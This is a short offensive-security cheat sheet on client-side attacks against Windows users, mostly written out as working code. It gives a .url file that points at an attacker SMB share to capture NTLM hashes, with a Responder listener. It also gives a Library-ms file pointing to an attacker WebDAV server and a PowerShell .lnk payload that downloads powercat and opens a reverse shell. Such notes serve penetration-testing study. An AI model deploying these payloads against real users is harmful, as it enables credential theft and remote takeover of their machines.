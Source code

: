 # Client Side Attacks

Use this tool to generate various types of files required for client side attacks.

{% embed url="https://github.com/Greenwolf/ntlm_theft" %}

### Malicious Url

.url file to put in shares, upload in file upload, etc.

```url
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.45.236\%USERNAME%.icon
IconIndex=1
```

Name this starting with @ so that it shows up on top like @evil.url

**Listen with responder:**

```
sudo responder -I tun0 -A
```



### Windows Library File

Useful to put in shares or in a folder where it is accessible by file explorer. Name it something like _**config.Library-ms**_

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://ip-here</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

We can create a webdav server so that we can access the webdav server upn double clicking the _**config.Library-ms**_ file:

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Now we can create a .lnk file called something like _**automatic\_configuration.lnk**_ in the webdav folder

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:<port>/powercat.ps1');
powercat -c <ip> -p <port> -e powershell"
```

Now we can put the _**config.Library-ms**_ file in the share:

```
smbclient //<ip>/share -c 'put config.Library-ms'
```
